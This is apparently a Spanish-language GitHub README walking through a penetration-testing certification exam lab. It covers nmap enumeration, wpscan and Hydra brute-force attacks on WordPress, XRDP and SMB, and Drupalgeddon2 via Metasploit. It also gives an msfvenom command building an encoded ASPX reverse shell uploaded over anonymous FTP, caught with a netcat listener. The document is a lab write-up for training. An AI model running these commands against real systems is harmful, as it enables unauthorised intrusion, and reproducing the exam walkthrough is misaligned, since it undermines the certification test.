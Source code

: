 # Easy-JTP
Suerte con la certificación, no recomiendo usar Metasploit si son nuevos.. mejor entiendan las vulnerabilidades
---

## **Tabla de Contenidos**
1. [Enumeración Inicial](#enumeración-inicial)
2. [Explotación de WordPress](#explotación-de-wordpress)
3. [Fuerza Bruta a XRDP](#fuerza-bruta-a-xrdp)
4. [Fuerza Bruta a SMB](#fuerza-bruta-a-smb)
5. [Explotación de Drupal](#explotación-de-drupal)
6. [Explotación de FTP](#explotación-de-ftp)
7. [Recomendaciones Generales](#recomendaciones-generales)

---

## **Enumeración Inicial**

El primer paso en cualquier examen o actividad de pentesting es la **enumeración o reconocimiento**. Utilicé `nmap` para escanear la red completa y descubrir servicios abiertos:

1. **Comando utilizado**: Realicé un escaneo con los scripts comunes y la detección de versiones para identificar los servicios disponibles "nmap -sC -sV -v 192.168.100.0/24".

2. **Resultados**:
   - 4 máquinas con servicios HTTP (puerto 80).
   - 2 máquinas con bases de datos MySQL.
   - 2 máquinas con XRDP (protocolo RDP).
   - Otros servicios como FTP y SMB en diferentes hosts.

3. **Hostname importante**: Encontré que uno de los servicios en `192.168.100.50` requería agregar el dominio `wordpress.local` en el archivo `/etc/hosts` para acceder al sitio web.

---

## **Explotación de WordPress**

1. **Enumeración de WordPress**:
   - Utilicé `wpscan` para enumerar usuarios y plugins.
   - Los usuarios y plugins detectados fueron claves para planear un ataque de fuerza bruta.
   - comandos: wpscan --url http://wordpress.local/ -e u; wpscan --url http://wordpress.local/ -e p;

2. **Fuerza Bruta de Contraseñas**:
   - Probé credenciales utilizando una lista de contraseñas conocida (`rockyou.txt`).
   - Después de descomprimir la lista de contraseñas (`gzip -d /usr/share/wordlists/rockyou.txt.gz`), ejecuté el ataque y logré obtener acceso.
   - comando con wpscan: wpscan --url http://wordpress.local/ --passwords /usr/share/wordlists/rockyou.txt

3. **Escalación a Shell**:
   - Subí un plugin malicioso manualmente para obtener una **reverse shell** manualmente.
   - Alternativamente, pueden usar el módulo `wp_admin_shell_upload` de Metasploit para automatizar este paso. Es importante activar el plugin desde el panel de WordPress si no funciona inmediatamente modificar el shell porque lo agregar para linux y la maquina es windows.

---

## **Fuerza Bruta a XRDP**

Hay dos máquinas con XRDP habilitado. Para realizar un ataque de fuerza bruta:

1. **Preparación de usuarios y contraseñas**:
   - Creé una lista de posibles usuarios basada en la información obtenida durante la enumeración.

2. **Ataque de fuerza bruta**:
   - Realicé fuerza bruta utilizando Hydra. Una vez encontradas las credenciales, accedí al escritorio remoto con `xfreerdp`.

3. **Escenario clave**:
   - Una de las máquinas permitía acceso como **root** mediante XRDP, lo que simplificó el control total del sistema.

4. **comandos**
   Fuerza bruta:

   hydra -L usuarios.txt -P  /usr/share/wordlists/rockyou.txt -t 4 -V rdp://192.168.100.52

   Para acceder:
   xfreerdp /u:el usuario /p:la password /v:192.168.100.52

---

## **Fuerza Bruta a SMB**

1. **Enumeración de Recursos Compartidos**:
   - Enumeré recursos SMB utilizando herramientas como `smbclient` y `enum4linux`.

2. **Fuerza Bruta de Credenciales**:
   - Utilicé Hydra para realizar ataques de fuerza bruta en el servicio SMB. Con las credenciales obtenidas, accedí a los recursos compartidos y extraje información relevante.

3. **comandos**:

hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt smb://<IP_del_objetivo>
---

## **Explotación de Drupal**

1. **Identificación de la versión**:
   - Detecté que uno de los servidores estaba ejecutando una versión vulnerable de Drupal (CVE-2018-7600).

2. **Uso de Metasploit**:
   - existe el módulo `drupal_drupalgeddon2` para intentar obtener una shell.
   - Si el exploit no devuelve una shell estable, consideren usar técnicas como port forwarding o proxies para mejorar la conectividad.
    -al final al conectarte por xrdp eres root entonces no hay que hacer escalacion
---

## **Explotación de FTP**

1. **Subida de Webshell**:
   - accedan al servidor FTP donde subí una **webshell** (`shell.aspx`), debemos tener encuenta que existe un webshell, pero con anonymous pueden subir el archivo asi que mejor una revershell... lo consultan en la web http://192.168.100.51/shell.aspx no olvides escuchar con netcat....
   - si no te deja copiar o algun error X: usa msfvenom.... msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=192.168.100.5 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx; y escuchas por el multi/handler

2. **Ejecución de la Webshell**:
   - configuren un listener (`nc`) para recibir la conexión y ejecuté la shell accediendo a su ruta desde el navegador "nc -lnvp (#)".

3. **Resultado**:
   - Obtención de acceso al sistema mediante una **reverse shell**.

---

## **Recomendaciones Generales**

1. **Enumeración exhaustiva**: Herramientas como `nmap`, `wpscan` y `enum4linux` son clave para identificar puntos de entrada.
2. **Uso de Hydra**: Es una herramienta poderosa para fuerza bruta en servicios como XRDP, SMB y FTP.
3. **Documentar todo**: Anoten usuarios, contraseñas y comandos utilizados para facilitar la resolución de preguntas del examen y hagan sus diccionarios propios.
4. **Prueben manualmente**: Aunque Metasploit es útil, es importante entender los procesos manuales detrás de los exploits.
5. **Existe una pregunta de usuarios como contraseña de alguno y si existen**: si es por xrdp, revisen remote desktop y enumeren manualmente... primero validar que existan con net user. 
---

SUERTE! 

![image](https://github.com/user-attachments/assets/2d5674de-bb61-4afe-a0ce-c4d95e982af0)
